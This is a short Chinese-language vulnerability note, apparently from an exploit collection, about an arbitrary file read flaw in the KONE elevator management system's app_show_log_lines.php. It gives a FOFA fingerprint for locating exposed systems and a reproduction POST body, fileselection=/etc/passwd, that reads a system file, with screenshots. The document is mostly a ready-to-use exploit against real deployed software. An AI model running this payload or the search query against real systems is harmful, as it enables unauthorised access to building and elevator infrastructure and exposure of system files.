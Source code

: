 # KONE 通力电梯管理系统 app_show_log_lines.php 任意文件读取漏洞

## 漏洞描述

KONE 通力电梯 app_show_log_lines.php文件过滤不足导致任意文件读取漏洞

## 漏洞影响

```
KONE 通力电梯管理系统
```

## FOFA

```
"KONE Configuration management"
```

## 漏洞复现

主页面

![image-20220519184439370](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191844461.png)

发送POST请求包

```
fileselection=/etc/passwd
```

![image-20220519184600379](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191846469.png)
